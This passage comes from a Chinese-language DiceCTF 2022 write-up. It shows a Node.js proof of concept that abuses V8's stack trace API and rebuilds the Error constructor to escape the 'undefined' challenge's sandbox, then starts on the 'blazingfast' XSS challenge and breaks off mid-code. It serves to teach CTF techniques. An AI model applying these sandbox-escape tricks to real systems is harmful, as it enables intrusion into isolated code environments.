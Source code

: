2022-02-09 補充：

補充一下另一個我覺得很帥氣的解法，來自這邊：[DiceCTF 2022 WriteUps by maple3142](https://blog.maple3142.net/2022/02/07/dicectf-2022-writeups/#undefined)

這邊用了 Node.js 可以拿到 structuredStackTrace 的 feature，簡單的 POC 長這樣：

``` js
function CustomError() {
  const oldStackTrace = Error.prepareStackTrace
  try {
    Error.prepareStackTrace = (err, structuredStackTrace) => structuredStackTrace
    Error.captureStackTrace(this)
    this.stack
  } finally {
    Error.prepareStackTrace = oldStackTrace
  }
}
function trigger() {
  const err = new CustomError()
  for (const x of err.stack) {
    console.log(x.getFunction()+"")
  }
}
trigger()
```

我們可以用 `x.getFunction()` 拿到上層的 function，就是 Node.js 幫忙加上 wrapper 的那個，再一樣用 `arugments` 去拿到參數，官方有個文件在講 [Stack trace API](https://v8.dev/docs/stack-trace-api)。

然後還有一點我覺得很酷，就是上面 POC 中如果放到 undefined 這題，我們是沒有 `Error` 可以用的，那怎麼辦呢？

writeup 的作者用了這招：

``` js
try {
	null.f()
} catch (e) {
	TypeError = e.constructor
}
Error = TypeError.prototype.__proto__.constructor
```

沒錯啊！既然拿不到 Error，就先自己製造一個 TypeError，再利用 TypeError 是繼承自 Error 的特性，就可以不依靠 global 拿到 Error constructor 了，這招好帥。

## web/blazingfast(75 solves)

這題的敘述是：

> I made a blazing fast MoCkInG CaSe converter!

簡單來說就是寫了一個會把奇數位置的字轉成大寫的轉換器，主要程式碼如下：

``` js
let blazingfast = null;

function mock(str) {
	blazingfast.init(str.length);

	if (str.length >= 1000) return 'Too long!';

	for (let c of str.toUpperCase()) {
		if (c.charCodeAt(0) > 128) return 'Nice try.';
		blazingfast.write(c.charCodeAt(0));
	}

	if (blazingfast.mock() == 1) {
		return 'No XSS for you!';
```
